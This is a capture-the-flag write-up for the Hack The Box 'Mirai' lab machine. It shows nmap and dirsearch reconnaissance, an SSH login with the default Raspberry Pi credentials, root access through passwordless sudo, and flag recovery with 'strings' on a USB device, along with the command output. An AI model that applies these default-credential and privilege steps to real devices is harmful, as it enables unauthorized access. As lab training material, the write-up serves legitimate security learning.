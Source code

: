 ## ---------------->> Mirai <<---------------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.48 -p-
-------

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 12:32 UTC
    Stats: 0:02:06 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 16.75% done; ETC: 12:45 (0:10:21 remaining)
    Stats: 0:05:48 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 43.08% done; ETC: 12:46 (0:07:38 remaining)
    Nmap scan report for 10.10.10.48
    Host is up (0.35s latency).
    Not shown: 65529 closed ports
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
    |   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
    |   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
    |_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
    53/tcp    open  domain  dnsmasq 2.76
    | dns-nsid: 
    |_  bind.version: dnsmasq-2.76
    80/tcp    open  http    lighttpd 1.4.35
    |_http-server-header: lighttpd/1.4.35
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    1417/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
    32400/tcp open  http    Plex Media Server httpd
    | http-auth: 
    | HTTP/1.1 401 Unauthorized\x0D
    |_  Server returned status 401 but no WWW-Authenticate header.
    |_http-cors: HEAD GET POST PUT DELETE OPTIONS
    |_http-favicon: Plex
    |_http-title: Unauthorized
    32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


// Navigating to http://10.10.10.48/ give us blank page

// Lets try to search for interesting directories with [dirsearch](https://github.com/maurosoria/dirsearch)(By Maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.48/ -t 150 -i 100-400
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.48/_21-08-11_13-19-46.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-11_13-19-46.log

    Target: http://10.10.10.48/

    [13:19:46] Starting: 
    [13:20:06] 301 -    0B  - /admin  ->  http://10.10.10.48/admin/

    Task Completed

// We found /admin/ directory

// Navigating to http://10.10.10.48/admin/ 

// We see a dashboard of Pi-Hole dns blocklist application for raspberry-pi devices.

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Mirai/1.png)

// Clicking on bottomm 'Login' >> 'Forgot password' , we can see that at first raspberry-pi get default credentials

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Mirai/2.png)

// And since we got SSH running lets try to connect with default raspberry-pi credentials: 'pi : raspberry'

    $ ssh pi@10.10.10.48
-------

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Aug 27 14:47:50 2017 from localhost

    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

    pi@raspberrypi:~ $ id
    uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
    pi@raspberrypi:~ $ 

// We got connected !!

// And user flag !

    pi@raspberrypi:~/Desktop $ cat user.txt
    ff83770..........................



### ------Privilleges Escelation------

// Gain root

    $ sudo -l
    Matching Defaults entries for pi on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User pi may run the following commands on localhost:
        (ALL : ALL) ALL
        (ALL) NOPASSWD: ALL
    pi@raspberrypi:~/Desktop $ sudo -i

    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

    root@raspberrypi:~# 

// Was easy isnt it, we have sudo permissions

// When try to see the flag we got some text in the file instead

    root@raspberrypi:~# cat /root/root.txt 
    I lost my original root.txt! I think I may have a backup on my USB stick...
    
// So the flag is on the USB stick

// Lets run 'df' command to see the all connected file systems

    root@raspberrypi:# df
    Filesystem     1K-blocks    Used Available Use% Mounted on
    aufs             8856504 2834172   5549400  34% /
    tmpfs             102396    4868     97528   5% /run
    /dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
    /dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
    tmpfs             255988       0    255988   0% /lib/live/mount/overlay
    /dev/sda2        8856504 2834172   5549400  34% /lib/live/mount/persistence/sda2
    devtmpfs           10240       0     10240   0% /dev
    tmpfs             255988       8    255980   1% /dev/shm
    tmpfs               5120       4      5116   1% /run/lock
    tmpfs             255988       0    255988   0% /sys/fs/cgroup
    tmpfs             255988       8    255980   1% /tmp
    /dev/sdb            8887      93      8078   2% /media/usbstick
    tmpfs              51200       0     51200   0% /run/user/999
    tmpfs              51200       0     51200   0% /run/user/1000

// We can see there /media/usbstick

// Lets check what inside

    root@raspberrypi:# ls /media/usbstick/
    damnit.txt  lost+found
    
------

    root@raspberrypi:# cat /media/usbstick/damnit.txt 
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?

    -James
    
// seems that the flag rased by james. lets try to find him with 'strings' command on /dev/sdb

    root@raspberrypi:# strings /dev/sdb
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    /media/usbstick
    2]8^
    lost+found
    root.txt
    damnit.txt
    >r &
    3d3e483143.................
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?
    -James

--------

// We found root flag !

    3d3e483143................
